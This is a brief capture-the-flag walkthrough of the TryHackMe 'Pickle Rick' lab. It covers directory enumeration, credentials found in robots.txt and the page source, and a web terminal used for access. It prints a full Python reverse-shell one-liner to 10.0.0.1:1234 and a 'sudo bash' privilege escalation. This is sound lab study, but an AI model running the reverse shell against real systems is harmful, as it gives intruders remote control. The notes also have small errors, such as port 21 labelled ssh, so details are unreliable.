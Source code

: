 ```yaml
---
title: Pickle Rick
permalink: pickleRick
---
```

# ![front](saharshtapi.github.io/images/pickleRick/front.png)
[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
1. find sub-doamisn and directories usind **dirb** + **dirbuster**
   - ip/robots.txt **(we find passwd)**
   - ip/index **(username in the source Page)**
   - ip/portal.php **(found username and password)**
   
## Gaining Access:
 **We find a terminal inside the website**
 - Add the python reverse shell command 
    >python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 - listening via netcat will gain you access to the **BOX**
### 1st Flag:
![user_flag](saharshtapi.github.io/images/Pickle Rick/1st.png)
### 2nd Flag:
![user_flag](saharshtapi.github.io/images/Pickle Rick/2nd.png) 


## Privilege Escalation:
 - sudo -l
    - All users are sudp 
      > 'sudo bash'
    
### 3rd Flag:
![rootflag.png](saharshtapi.github.io/images/pickleRick/3rd.png)
